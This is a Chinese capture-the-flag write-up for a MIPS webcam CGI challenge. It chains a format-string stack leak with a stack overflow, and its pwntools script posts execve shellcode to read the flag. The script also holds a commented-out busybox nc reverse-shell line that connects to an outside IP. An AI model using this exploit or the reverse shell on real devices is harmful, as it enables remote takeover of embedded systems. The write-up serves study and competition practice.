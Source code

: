 # easy_webcam

## 文件属性

|属性  |值    |
|------|------|
|Arch  |mipsel|
|RELRO |Full  |
|Canary|off   |
|NX    |off   |
|PIE   |off   |
|strip |yes   |

## 解题思路

static编译还剥符号，有点恶心了，还原符号花了不少时间。boa没剥符号，大约是现成的，
没做改动。大致运行流程是`boa` webserver --转发-> `manager.cgi`这样。

`manager.cgi`首先从环境变量里拿到从boa传来的`Content-Length`，然后读取并解析json，
根据输入的命令和camera id判断：当`camera_id != 2024`时，可借助camera id打格式化字符串，
泄露信息；当`camera_id == 2024 && strstr(operation, "reboot")`时，可借助`operation`打栈溢出。

> [!IMPORTANT]
> cgi是由qemu用户态启动的，内存布局不会变化，并且栈是可执行的，我们可以直接打栈上shellcode。
> 需要注意的是由于各种参数是通过环境变量传进来的，因此浏览器指纹不同，
> 从boa传到`manager.cgi`的环境也不同，栈布局也不同。在攻击的时候要使用同一个环境。
> 一开始我就是先浏览器泄露信息，再python打，就完全打不通。

接下来共攻击思路清晰了：首先控制`camera_id`打格式化字符串，使用%p泄露栈地址，
然后控制`operation`打栈溢出，写shellcode到栈上并跳转执行。

> [!NOTE]
> `manager.cgi`的输出要符合CGI标准才能借由boa传输到我们这里，因此在打开shell是不现实的，
> 因为没法绕过boa直接和shell交互；同时也不能只打印一个flag，因为还要加Content-Type才能传过来。
> 当时flag名字还不一样，需要先`ls`看文件。至于Type，大概不需要json，plaintext应该就可以输出flag了。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'mips'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = 'easy_webcam/html/cgi-bin/manager'

def payload(lo: int):
    global sh
    if lo:
        ip = '127.0.0.1'
        ipfrom = ip
    else:
        ip = '173.41.102.19'
        ipfrom = '174.40.102.172'

    sh = remote(ip, 80)
    if lo:
        stack = 0x2b2aadd1 + 0x1cf - 0x200
        # stack = 0x2b2aaf40
    else:
        # stack = 0x407ffe71 + 0x1ff
        stack = 0x407ffe11 + 0x1cf - 0x200

    # shc = asm(shellcraft.execve('/bin/busybox', ['nc', ipfrom, '14444', '-e', '/bin/sh']))
    shc = asm(shellcraft.execve('/bin/sh', ['sh', '-c', 'echo Content-Type: application/json\necho\nread FLAG < /flag-EA096FE3722C\necho {flag:$FLAG}']))
    # shc = asm(shellcraft.execve('/bin/echo', ['echo', 'Content-Type: application/json\n\n{}']))
    # shc = asm(shellcraft.write(1, 0x4702e0, 31) + shellcraft.write(1, 0x4702e0 + 30, 1) + shellcraft.write(1, 0x470300, 49) + shellcraft.exit())

    def mkRequest(shellcode: bytes) -> bytes:
        part1 = b'POST /cgi-bin/manager.cgi HTTP/1.1\r\n' \
                b'Accept: */*\r\n' \
                b'Accept-Encoding: gzip, deflate\r\n' \
                b'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6\r\n' \
                b'Cache-Control: no-cache\r\n' \
                b'Connection: keep-alive\r\n' \
                b'DNT: 1\r\n' \
                b'Origin: http://174.40.102.172\r\n' \
                b'Pragma: no-cache\r\n' \
                b'Referer: http://174.40.102.172/\r\n' \
                b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0\r\n' \
                b'Host: ' + ip.encode() + b'\r\n' \
                b'Content-Length: '
        part2 = b'\r\n' \
                b'Content-Type: application/json\r\n' \
                b'\r\n' \
                b'{"camera_id":"2024","operation":"'
        part3 = b'"}'
        length = len(shellcode) + len(b'{"camera_id":"2024","operation":""}')
        return part1 + str(length).encode() + part2 + shellcode + part3

    sh.send(mkRequest(b'reboot'.ljust(0x44) + p32(stack) + shc))

    # sh.clean()
    sh.interactive()
    sh.close()
```

<img src="assets/managerFLAG.png" width="70%">
